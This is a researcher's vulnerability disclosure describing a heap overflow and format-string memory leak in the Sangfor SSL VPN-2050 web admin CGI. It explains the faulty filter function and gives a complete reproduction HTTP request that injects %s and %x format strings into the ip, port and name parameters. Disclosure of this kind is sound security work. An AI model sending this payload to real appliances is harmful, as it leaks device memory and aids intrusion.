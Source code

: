 Hi,

I am eack from Codesafe Team of Legendsec at Qi'anxin Group.

Recently, I found that the Sangfor SSL VPN-2050 has a Heap overflow vulnerability. An attacker can leak heap memory by formatting a string. The tested device firmware version is M7.6.3. The vulnerability details are as follows:

This vulnerability is due to a logic vulnerability in the filter function, resulting in overflow of the ip and port parameters.

The vulnerability exists in gcs_webui.cgi, which corresponds to the IP address and port options under "System Maintenance - Proxy Settings" on the administration page.

Vulnerability code: 
![1.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622195475389.png)
Guess the developer wants to filter the ip and port parameters by the str_filter function. In the first if judgment, the str_filter function needs to return 0 to continue the following processing of the port parameter. The implementation of the str_filter function is as follows:
![2.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622267799970.png)
In this while loop, v2 does not play any role, the range of filtering characters is also problematic, resulting in as long as the number and '/' will fall into the while loop, always write data to a1, but if it is other characters For example, if the letter, '%', etc., it will return 0, but this just meets the judgment of if, and can continue the processing. This logic, just enough to constantly cover the address on the heap, leaks the data on the heap through formatted strings such as %s and %x.

The payload of the vulnerability recurrence is as follows:
On the 4430 port, the heap memory address is leaked through the ip parameter, port parameter, and name parameter:

GET /cgi-bin/gcs_webui.cgi?requestarg=2&requestname=17&csrf=f6a360046920f0382bf361f4688eabb4&enabled=1&ip=10.10.10.100000000000000000000000000%s%x&port=1111111%s%x&auth=1&name=aaaaaaa%s%x&passwd=111 HTTP/1.1
Host: 10.92.2.17:4430
Connection: close
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Referer: https://10.92.2.17:4430/html/gcs_proxyset.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zh_CN; TWFID=1a000798af849707; g_LoginPage=login_psw; VisitTimes=0; haveLogin=0; VpnLine=http%3A%2F%2F10.92.2.17%2F; sinfor_session_id=WA16F9E951F925B56F78666EFBF6DB22; PHPSESSID=e116e0e2c17bed877d1f825a77e6babf; usermrgstate=%7B%22params%22%3A%7B%22grpid%22%3A%22-100%22%2C%22recflag%22%3A0%2C%22filter%22%3A0%7D%2C%22pageparams%22%3A%7B%22start%22%3A0%2C%22limit%22%3A25%7D%2C%22otherparams%22%3A%7B%22searchtype%22%3A0%2C%22recflag%22%3Afalse%7D%7D; hidecfg=%7B%22name%22%3Afalse%2C%22flag%22%3Afalse%2C%22note%22%3Afalse%2C%22expire%22%3Atrue%2C%22lastlogin_time%22%3Atrue%2C%22phone%22%3Atrue%2C%22allocateip%22%3Atrue%2C%22other%22%3Afalse%2C%22state%22%3Afalse%7D; x-anti-csrf-gcs=0FB447BC0046963D

You can see the heap leak clearly on the web management interface:
![1.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561624566926470.png)

This vulnerability can be fixed by modifying the logic of the filter function.

Best wishes
